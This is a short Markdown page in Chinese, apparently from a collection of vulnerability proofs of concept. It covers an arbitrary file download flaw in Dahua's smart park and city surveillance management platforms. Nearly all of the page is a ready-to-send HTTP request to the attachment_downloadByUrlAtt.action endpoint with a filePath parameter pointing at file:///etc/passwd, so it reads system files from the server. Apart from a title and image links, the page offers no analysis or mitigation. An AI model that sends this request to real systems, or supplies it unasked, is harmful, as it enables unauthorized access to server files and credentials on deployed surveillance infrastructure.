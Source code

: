 
## 大华智慧园区管理平台任意文件读取

大华 城市安防监控系统平台管理 任意文件下载漏洞

![980ef223e974cc83ec550ebf4e831be0](../../images/c288a9eb-da04-477d-9374-f2fbf4197e25.png)

## poc
```
GET /portal/attachment_downloadByUrlAtt.action?filePath=file:///etc/passwd HTTP/1.1
Host: ip:port
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![image](../../images/63bb42ac-8bd8-401e-a61b-120e7a910d5c.png)
